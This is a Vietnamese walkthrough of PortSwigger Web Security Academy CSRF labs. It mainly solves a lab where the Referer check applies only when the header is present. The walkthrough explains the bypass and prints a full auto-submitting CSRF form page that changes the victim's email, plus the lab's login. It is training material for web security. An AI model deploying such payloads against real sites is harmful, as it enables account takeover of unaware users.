 # **10. Lab: SameSite Lax bypass via cookie refresh**
![image](https://hackmd.io/_uploads/By7Pzp0SC.png)

# **11. Lab: CSRF where Referer validation depends on header being present**
>Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó cố gắng chặn các yêu cầu tên miền chéo nhưng có một phương án dự phòng không an toàn.
Để giải quyết bài lab, hãy sử dụng máy chủ khai thác của bạn để lưu trữ trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`
![image](https://hackmd.io/_uploads/ByT0mp0SA.png)

>Ứng dụng web này trang bị cơ chế chống CSRF bằng cách validate trường Referer. Đăng nhập vào `wiener` và thực hiện thay đổi email hợp lệ: ![image](https://hackmd.io/_uploads/rypu4pCS0.png)

>Nếu ta thay đổi `Referer` khác domain của ứng dụng web thì server sẽ trả về `Invalid referer header`:
>![image](https://hackmd.io/_uploads/ry-oN60HA.png)

>Tuy nhiên nếu ta  xóa header Referer luôn thì server vẫn xử lí và trả về kết quả thành công: ![image](https://hackmd.io/_uploads/HJZlB6Ar0.png)

>Điều này suy ra được rằng server chỉ validate Referer khi nó tồn tại, còn không thì bỏ qua. Như vậy chỉ cần tạo CSRF payload thông thường và thêm `<meta name="referrer" content="never">` để loại trừ `Referer` khỏi request.

>Tạo payload bằng PoC: ![image](https://hackmd.io/_uploads/ryH8BaRB0.png)

>Thêm `<meta name="referrer" content="never">` vào đầu payload và lưu vào trong exploit server: ![image](https://hackmd.io/_uploads/rkUOS6CH0.png)

```
<html>
  <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae300220400dffd80458a6c009e00a7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ducanh123&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

>Chọn **"Deliver exploit to victim"** thì thấy email đã thay đổi thành công!, hoàn thành bài lab: ![image](https://hackmd.io/_uploads/ByckUT0BA.png)

